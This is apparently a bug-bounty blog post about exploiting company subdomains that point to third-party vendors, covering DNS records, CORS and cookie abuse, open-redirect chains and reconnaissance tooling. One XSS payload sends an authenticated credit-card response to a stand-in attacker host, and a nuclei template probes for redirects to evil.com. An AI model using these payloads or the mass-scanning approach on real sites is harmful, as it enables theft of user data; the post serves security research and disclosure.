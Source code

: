 ```yaml
---
layout: single
title: Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations
date: 2021-02-15
classes: wide
header:
  teaser: /images/3rdparty_teaser.png
tags:

  -BugBounty
--- 
```


**Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations**

![preview](/images/3rdparty_teaser.png)

## Agenda

During my last couple of months engaging with bug bounties on companies who hold responsible disclosure policy, I have encountered what might be called as some sort of routine, which helped me score bounties on companies regardless of their size.

This is due to what I will refer on this blog post as "Vulnerability Inheritance"

In this blog I'll cover the following:

![preview](/images/agenda.png)


### General

In today’s world, software companies are growing rapidly and so the need for new designs and features to implement ontop of the company current niche, which draws large portion of the software developers attention.

Companies will opt to “adopt” 3rd party services to achieve certain functionality goals, which would give them a "cheap" and time rewarding solution instead of investing manpower on maintaining and devloping certain "sideways" features which are already being maintaned and constantly developed by big companies.

While doing so is indeed rewarding and has many benefits, it do come out with a security price which needs to be considered and handeld correctly by the companies.

The 2 main methods in which we can integrate 3rd party services within our company domains are the following:

![2ways](/images/2ways.png)

The main area which I will cover are within the CNAME and A records integrations, for <script> and <iframe> integrations, there are several vulnerabilities which can arise and I'd suggest watching our Chief Architect at enso.security talk about postMessage exploitations which we had given earlier this year.

**Understanding CNAMES and A records**

CNAME records can be used to alias one name to another. CNAME stands for Canonical Name.
A common example is when you have both example.com and www.example.com pointing to the same application and hosted by the same server. 
To avoid maintaining two different records, it’s common to create:
* An A record for example.com pointing to the server IP address
* A CNAME record for www.example.com pointing to example.com

As a result, example.com points to the server IP address, and www.example.com points to the same address via example.com. If the IP address changes, you only need to update it in one place: just edit the A record for example.com, and www.example.com automatically inherits the changes.

**Understanding CNAMES and A records DNS flow**

![dns_cname](/images/cname_dns.png)

By observing the DNS flow above, you could already start to glimpse the point why security vulnerabilities are being arised from integrations as such.

There are 2 ways to implement 3rd party integrations through DNS records:

* Assigning a CNAME record from a subdomain to the 3rd party service, by doing so we "alias" the contents from the 3rd party website to serve on our subdomain.

* Assigning A record to an IP address which will run the vendor's service with slight modificatitions.

![flow_nagli](/images/flow.png)

After understanding the basics, we can dive deeper into the threat and attack models section

### Threat and attack models

![threat](/images/threat.png)

As we approach the threats and attack models phase, we need to understand that the main attack vectors we will look for are **Client Side Vulnerabilities**, this should make sense by now as we are attacking the company subdomain which is being served as an alias to third party service, in other words:

Achieveing RCE on the target would actually mean that we have remote code execution on the vendor's server
Achieving SSRF on the target would actually mean that we have Server Side Request Forgery from the vendor's IP
Achieveing XXE on the target would actually mean that we have XML External Entity attack on the vendor's server

Those attacks are severe and can affect the subdomain we are targeting, but as for the impact we are going for to the actual company we are targeting, it will still remain within the same attack models that we can achieve from Client Side Vulnerabilities on the specific subdomain.

I believe that Subdomain takeovers and Dangling dns records are wide known and understood with the community, there are bunch of great tutorials and explanations on these attacks and It's not the main discusstion area of the blog, yet it has to be mentioned and I'll share on the reconnaissance my methodology targeting and automatic the process of finding those.

![tko](/images/tko.png)

![dangling](/images/dangling.png)

Now, let's dive into the main part of the talk.

Client side vulnerabilities such as Cross Site Scripting and Open Redirects are often considered the most common bugs to be found by bug bounty hunters, as such many defence measures are being integrated and considered by companies todays such as implementing CSP (Content-Security-Policy), Deploying a WAF (Web Application Firewall), strict regex controls and sanitizing user input on all fields at all costs (Almost an impossible task).

Those solutions are good, although there are many WAF and CSP Bypasses which are being discovered from time to time, it will mostly do good job with protecting your companies domain from the straight forward attacks.

**But**,
When we integrate 3rd party service to our domain by pointing to it with a CNAME or A record, we are serving an alias of the vendors website, and the defense measures which we have taken throught the entire development process are no longer effective.

Upon integration we are being 100% dependent on the vendors security policy regarding vulnerabillities.

And this is where the **"Vulnerability Inheritance"** part comes to play, whenever we decide to integrate a new service, we will inherit it's entire security flaws to be served under our domain.

Let's take a quick look on the matter:

Assume we have found Stored XSS on a third party vendor, let's say on .welearn.com, and the company which we are targeting - target.com has a subdomain named study.target.com which points to target.welearn.com, target.com is well protected with strict CSP in place and up to date WAF.

Because study.target.com is a CNAME, it won't have any of these protections inplace, which could have blocked the XSS we have found on the 3rd party vendor.

Now, we will navigate to the subdomain and execute the XSS, as we could have anticipated it's affecting website as well as the vendors website, and the document.domain of the execution is being changed accordingly. 

![xss](/images/xss.png)

That's nice, so we found a vulnerability on a subdomain of our target.com company, and we have done so without tackling any of the defense in depth security measures being implemented on their domains. it's already a valid vulnerability if the company has wildcard domain inscope for assessment.

As I have encountered from time to time with my assessments, often the targeted companies won't realize the impact for such vulnerabilities, and they can issue a generic response as:

"Nice find, although the subdomain you have targeted is affecting 3rd party service which isn't under our control, and there is no impact by doing so."

The vulnerability itself indeed cannot be resolved by the company which we target, and they best mitigation considering the severity is to take down the website for maintanence until the vendor will fix it's flows.

Regarding the impact, it's subjective to the companies design and implementations, and it could be used as a chain to more severer actions.

**Bypassing CORS protections**

To those who are unfamilliar with the **Cross Origin Resource Sharing** mechanism:

Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any other origins (domain, scheme, or port) than its own from which a browser should permit loading of resources.

Upon examining the main functions of our target website, if we come across the following set of headers and there is sensitive data being returned on the page, we defintly should stop and investigate what happens:

```javascript
Access-Control-Allow-Origin: https://galnagli.com
Access-Control-Allow-Credentials: true
```

When responding to a credentialed request, the server must specify an origin in the value of the Access-Control-Allow-Origin header, instead of specifying the `*` wildcard.

We want to make a request with the Access-Control-Allow-Credentials: true header, as it would allow fetching data with the user credentials attached (as authenticated personal).

Targets who set their CORS policy could have it assigned as "Wildcard" whenever dealing with requests which doesn't require authentication.
And as defense mechanism they would allow specifing the origin on authenticated requests only to be scope for the targets subdomains, such as 

```javascript
*.galnagli.com
```

It means that if we want to initiate a request from a subdomain of our target, we will specify it's name on the Allow-Origin header, which will look like the following:

```javascript
Access-Control-Allow-Origin: https://study.galnagli.com
Access-Control-Allow-Credentials: true
```

Now, as we have discovered Cross Site Scripting vulnerability on that subdomain, and although it occurres because of the 3rd party vendor misconfigurations, the origin of execution is being tied to our subdomain, which is inscope of making credential requests to the main domain as per our target configuration.

We can use our XSS to fetch sensitive information which is being stored on the parent domain by issuing a script similar to:

```javascript
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://galnagli.com/creditcard.json',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
</script>
```

Storing this as the Cross Site Scripting payload will send to our attacker controlled server the creditcard.json authenticated response for each visitor who visits the affected subdomain and executes the script.


**Cookies exfiltration**

When companies are setting up cookies on their main websites, they tend to configure them with domain attribute, with makes them accessible and stored on the respective subdomains as well.

As per MDN:
```
Domain attribute
The Domain attribute specifies which hosts are allowed to receive the cookie. If unspecified, it defaults to the same host that set the cookie, excluding subdomains. If Domain is specified, then subdomains are always included. Therefore, specifying Domain is less restrictive than omitting it. However, it can be helpful when subdomains need to share information about a user.

For example, if Domain=mozilla.org is set, then cookies are available on subdomains like developer.mozilla.org.
```

It means that if we manage to find XSS vulnerability on our subdomain, we can exfiltrate the cookies which are being set on the parent domain, only if they are not protected by HTTPOnly flags.

We can use the cookies attached to issue requests from the victim perspective (such as CSRF attacks) regardless of the cookies being set to HTTPOnly.

![cookie](/images/cookie.png)

**Business Logic Errors**

Similar to the impact of subdomain takeover, instead of stealing the domain and to show a generic alert popup from that subdomain, we can use that subdomain to demonstrate legitimate service claiming to be on behalf of the original domain, while its actually being managed by the attacker.

Let's take to an example if we managed to takeover a shopify domain of the target domain, served on shop.target.com:

![business](/images/business.png)

**Open Redirect as a chain**

Assuming we have found open redirect on our vulnerable 3rd party vendor, which affects our subdomain shop.galnagli.com.
This could be used as a chain to more severe attacks, some companies would accept the open redirect as P4, but this should be considered last resort after trying to achieve greater affect and impact through different and more severe vulnerabilities such as Account Takeover or SSRF Bypasses.

**Account Takeover**

Let's take a look at the following example:

![redirectko](/images/redirect_tko.png)

While this issue looks straight forward like regular open redirect to account takeover, it's not that case so often.
Because we have another location to redirect through, we will often encounter a redirection chain which won't carry the authentication code throughout the entire process, we need to have certain redirection which fetches and issues the call through the DOM of certain page, and only redirects to the final domain from the original initiator

```javascript
https://galnagli.com - > https://shop.galnagli.com -> https://sadf.burpcollaborator.com - Most likely won't carry the auth code.
https://galnagli.com - > **middleman redirection processing page** -> https://sadf.burpcollaborator.com - Most likely will work.
```


**SSRF Bypass**

Similar to the previous vulnerable scenario, we can achieve SSRF by bypassing allowed whitelisted wildcard urls at certain scenarios.

![ssrf](/images/ssrf.png)

### Reconnaissance

The Reconnaissance part should be divded to 2 main parts:

![recon](/images/2recon.png)

Our first task is to find a potenial target to test for possible vulnerabilities.

I prefer to scan the our target first and look for 3rd parties services which are integrated already in their flow, although a researcher could opt to find web 0-days on 3rd party vendor services before looking for any target, I'm not sure it hold the ethical phase if the vendor won't operate any responsible disclosure policy (which is really bad for vendor's to not have one of those)

And you might find a vulnerability which won't affect any target who offers bug bounties or CVE to award your effort, so going through our target assets and expanding further should be the way to go.

We are mostly interested to find the CNAME records and potenial A records with titles who indicate the usage of 3rd party services.

There are many unix tools which could help us to determine the if certain host (https://www.example.com) has CNAME pointer to certain website, the most simple way to check for those would to run a dig scan

```javascript
dig target.com CNAME
```
which should return in response similar answer to:

```javascript
shop.galnagli.com.     300     IN      CNAME   galnagli.myshopify.com
```

Although, there are better ways and faster tools which would let us run over large portion of domains and return on the same iteration the title of the webpage, and it's CNAME.
using the opensource httpx tool by ProjectDiscovery we can use the following script to scan a list of subdomains and extract their CNAMES records and titles, given a list of subdomains with their respective status code.

```javascript
cat subdomains.txt | httpx -cname -title -status-code > rawdata.txt
```

```javascript
https://shop.galnagli.com [404] [This shopping website is unclaimed] [galnagli.myshop.com]
https://events.galnagli.com [200] [Welcome to eventstoday platform] [galnagli.eventstoday.com]
```

So we have determined that our subdomain has CNAME pointer to 3rd party vendor, assuming our target accepts wildcard reports and going over the entire blog until this point, we can explore the for vulnerabilities on the vendors website and apply those on the in-scope subdomain.

Even if events.galnagli.com didn't have a CNAME record to eventstoday, and was hosting it on a IP address with A record, the title of the webpage would exfiltrate the fact that it's a 3rd party service.

Apart from automation, we can never takeaway from manually inspecting websites. 
we could usually encounter via the sourcecode image locations or "signatures" on the page the fact that we are being served a 3rd party vendors code.

So, we found a target, and we managed to find vulnerabilities on it such as XSS or Open-Redirect, that's great and should count as a valid report.

However, the potenial is way bigger, now we have a "0 day" on web application service, and we should scrape the internet at scale to find other big vendors who uses the same service to host content on their domains.

![fingerprint](/images/fingerprint.png)


**Google Dorks**

Common google dorking patterns which can aid us in finding more potenial vulnerable targets will be utilized by the "site", "inurl" and "intext" Google dorks

![dorks](/images/dorks.png)

**Customers page**

Often, one of the most benefiting and simple solutions expanding our vulnerable targets batch is to navigate to the 3rd party vendors, which usually contains a Customer or About us page with data about new targets to explore.

Sometimes you could get indication of the number of vulnerable assets, as they vendor might state "Trusted by 100K Companies around the world", that's surely good news!

**Reverse CNAME lookup**

One of the most accurate and to the point methods to find vulnerable targets is by utilizing Reverse CNAME lookups which is being offered by several online services.

This solution might not be free, those are services like Shodan, Censys or Spyse who scrape the entire internet assets data and store them into their databases.
By doing so they allow us to filter our searches to find the CNAME pointers values of assets, by looking up for the 3rd party vendor CNAME Scheme.

Personally I have used spyse's service, and it worked just fine.

![dorks](/images/reverse_cname.png)

**Path Fingerprinting**

Sometimes, we find our vulnerability on a custom path which seems pretty unique and it could be used as an identifier for potenial vulnerability.
We have great open source tools such as meg by tomnomnom or Nuclei by ProjectDiscovery which can help us either create a template or query the request with the certain path

Example of creating a template with nuclei .yaml templates:

```javascript
id: welearn-redirect

info:
  name: Open Redirect vulnerability on welearn websites
  author: Gal Nagli
  severity: Medium
  tags: redirect


requests:
  - method: GET

    path:
      - "{{BaseURL}}/api/welearn/v2/exitnotice?goto=http://evil.com"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 302
      - type: word
        words:
          - "<a href=\"http://evil.com>""
        condition: or
        part: body
 ```

What this template will check is giving a request to our URL with the specific path supplied, is the response returns 302 status code with the words ```<a href=https://evil.com>``` in it? if so - pop an alert.
  
You save your file as welearn-redirect.yaml, add it to your nuclei templates and can run it on millions of subdomains in no-time.

![path](/images/path.png)


### Practical exploitations

Unfortunately, at this point of time I don't have permission to disclose the full details of my findings as 6 month haven't gone by yet, however among all my findings had affected the following companies:

![impacted](/images/impacted.png)

And hundred of thousands websites on total from the "0 days" on these 3rd party vendors (which some of those are not fixed yet)

**Most Common Findings**
- [X] Subdomain Takeovers
- [X] Stored XSS on 3rd party email templates
- [X] Reflected XSS on events platform
- [X] Open Redirect on 2 Learning platforms
- [X] Account takeover on Survey platform


### Takeaways

**This subject will only grow and become more frequent**

**Caution when assigning CNAME records**

**Monitoring**


